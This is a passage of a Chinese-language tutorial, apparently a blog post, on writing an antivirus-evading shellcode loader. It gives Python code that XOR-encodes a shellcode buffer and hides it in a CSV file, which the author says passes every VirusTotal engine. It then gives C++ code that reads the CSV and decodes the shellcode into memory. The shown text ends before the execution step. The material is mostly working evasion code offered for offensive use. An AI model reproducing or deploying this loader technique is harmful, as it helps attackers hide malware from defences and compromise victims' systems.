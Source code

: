 
最后调用我们的Messageboxa  
`MessageBoxA(0, "abc", 0, 0);`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628094450.png)

可以看到成功打印出来了1，后面的代码我们也就要写在这里面了

# 2.读取csv文件

这里我用python把shellcode异或后写入csv文件，c++读取也是比较简单，毕竟csv文件格式就是：“数据1，数据2”这样而已，只是用一个逗号隔开

Python加密源码：

    
    
    import csv  
    buf=b"。。。。。"  
    sc=[]  
    for i in buf:  
        sc.append((i^1024)+1000)  
      
    with open("shc.csv","w",newline="",encoding="utf-8") as f:  
        write=csv.writer(f)  
        write.writerow(sc)  
    

会生成一个shc.csv文件，结果如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628094451.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628094453.png)  
并且csv文件vt全过

c++读取csv文件，并且解密shellcode

    
    
    ifstream inFile("shc.csv", ios::in);  
    string linstr;  
    vector<vector<string>> strArray;  
    while (getline(inFile, linstr)) {  
        stringstream ss(linstr);  
        string str;  
        vector<string> linearray;  
        while (getline(ss, str, ',')) {  
            linearray.push_back(str);  
        }  
        strArray.push_back(linearray);  
    }  
    char buuf[2000];//解密后的shellcode存在buuf这里  
    int i = 0;  
    for (auto s : strArray) {  
        for (auto x : s) {  
            char* strb = &x[0];  
            char strchar = (char)((atoi(strb) - 1000) ^ 1024);  
            buuf[i] = strchar;  
            i += 1;  
        }  
    }  
    